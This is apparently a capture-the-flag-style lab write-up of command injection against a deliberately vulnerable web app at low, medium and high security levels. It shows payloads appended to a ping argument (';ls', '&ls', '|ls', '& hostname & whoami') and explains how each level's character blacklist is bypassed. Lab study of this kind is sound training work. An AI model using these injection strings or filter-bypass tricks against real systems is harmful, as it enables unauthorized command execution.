 # 1. Command Injection -> Low Security Level

```
For More information ->
```
![alt text](images/1.png)

## I wanna check with ;ls
```bash
┌──(robert㉿kali)-[~]
└─$ ping 127.0.0.2; ls       
PING 127.0.0.2 (127.0.0.2) 56(84) bytes of data.
64 bytes from 127.0.0.2: icmp_seq=1 ttl=64 time=0.170 ms
64 bytes from 127.0.0.2: icmp_seq=2 ttl=64 time=0.068 ms
64 bytes from 127.0.0.2: icmp_seq=3 ttl=64 time=0.079 ms
64 bytes from 127.0.0.2: icmp_seq=4 ttl=64 time=0.075 ms
64 bytes from 127.0.0.2: icmp_seq=5 ttl=64 time=0.069 ms
64 bytes from 127.0.0.2: icmp_seq=6 ttl=64 time=0.062 ms
^C
--- 127.0.0.2 ping statistics ---
6 packets transmitted, 6 received, 0% packet loss, time 5105ms
rtt min/avg/max/mdev = 0.062/0.087/0.170/0.037 ms
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
```
Here we go
![alt text](images/2.png)

So this was the low level 
![alt text](images/3.png)

# 2. Command Injection -> Medium Security Level
``` bash
With ;ls don't get any output so has to change the flow
Can see that ";" "&" will be replaced with " "
```
Source Code for medium lvl 
![alt text](images/4.png)
``` bash
Solution -> ping 127.0.0.2 &ls
```
![alt text](images/5.png)
![alt text](images/6.png)

``` bash
ping 127.0.0.2 & ls & hostname & whoami -> useful command
```
![alt text](images/7.png)

# 3. Command Injection -> High Security Level
![alt text](images/8.png)

>The blacklist is bigger and bigger 

![alt text](images/9.png)

>Function trim() which removes all the spaces was a good hint, just put them together
``` bash
ping 127.0.0.2|ls
```
![alt text](images/10.png)